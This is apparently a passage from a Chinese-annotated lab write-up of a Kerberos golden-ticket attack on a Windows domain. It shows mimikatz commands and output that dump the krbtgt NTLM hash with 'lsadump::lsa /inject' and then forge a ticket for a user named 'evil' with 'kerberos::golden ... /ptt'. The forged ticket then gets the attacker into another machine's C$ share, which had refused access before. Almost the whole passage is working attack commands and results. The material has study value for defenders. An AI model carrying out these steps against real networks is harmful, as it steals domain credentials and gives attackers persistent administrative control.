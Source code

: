 ```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::lsa /inject /name:krbtgt
Domain : RING2 / S-1-5-21-2475887593-94489213-2292866110

RID  : 000001f6 (502)
User : krbtgt

 * Primary
    NTLM : 29bb608cc69ec270aed8805b190cff38
    LM   :
  Hash NTLM: 29bb608cc69ec270aed8805b190cff38
    ntlm- 0: 29bb608cc69ec270aed8805b190cff38
    lm  - 0: 67caa7fabf71d94ac00ec2adfaa076f0
```

**step 4. ptt**

```
c:\Users\win10\Desktop>dir \\win10-pc2\c$
Access is denied.

c:\Users\win10\Desktop>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # kerberos::golden /user:evil /domain:ring2.com /sid:S-1-5-21-2475887593-94489213-2292866110 /krbtgt:29bb608cc69ec270aed8805b190cff38 /ptt
User      : evil
Domain    : ring2.com (RING2)
SID       : S-1-5-21-2475887593-94489213-2292866110
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 29bb608cc69ec270aed8805b190cff38 - rc4_hmac_nt
Lifetime  : 7/29/2020 11:21:09 PM ; 7/27/2030 11:21:09 PM ; 7/27/2030 11:21:09 PM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'evil @ ring2.com' successfully submitted for current session

mimikatz # exit
Bye!

// 注: 这里要用机器名而不是IP，因为TGS Request中发的是server computer name, DC中查server Hash也是根据computer_name$查的
c:\Users\win10\Desktop>dir \\win10-pc2\c$
 Volume in drive \\win10-pc2\c$ has no label.
 Volume Serial Number is 82AC-49B6

 Directory of \\win10-pc2\c$

07/10/2020  04:06 PM    <DIR>          PerfLogs
07/27/2020  04:12 AM    <DIR>          Program Files
07/10/2020  04:14 PM    <DIR>          Program Files (x86)
```